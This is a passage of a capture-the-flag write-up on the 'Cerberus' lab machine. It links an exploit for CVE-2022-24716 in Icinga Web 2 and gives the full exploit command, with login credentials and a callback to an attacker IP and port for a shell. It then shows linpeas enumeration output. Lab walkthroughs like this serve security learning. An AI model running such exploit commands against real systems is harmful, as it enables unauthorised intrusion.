 nothing happen if you login into system, we need to exploit for gain access into system. you grab the exploit code in [here](https://raw.githubusercontent.com/JacobEbben/CVE-2022-24716/main/exploit.py). Before we reach the system, we need to create a PEM file with following command:

```bash
ssh-keygen -m pem (with output cert.pem)
```

then you can execute with command below:

```bash
#exploit
python3 exploit.py -t http://icinga.cerberus.local:8080/icingaweb2/ -p 8080 -u matthew -p "IcingaWebPassword2023" -I 10.10.14.146 -P 9001 -e cert.pem
```

![](/assets/img/cerberus/5.png)

i already upload **linpeas** for gather  information, the cool thing is linpeas didnt detect if we're inside container.

```bash
═════════════════════════════════════════════╣ Container ╠═════════════════════════════════════════════
                                             ╚═══════════╝
╔══════════╣ Container related tools present
/usr/sbin/lxc
╔══════════╣ Container details
═╣ Is this a container? ........... No
═╣ Any running containers? ........ No

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.9.9
```

i already tried to exploit sudo without any luck, and i found another things to reach the root for this container.

![](/assets/img/cerberus/6.png)
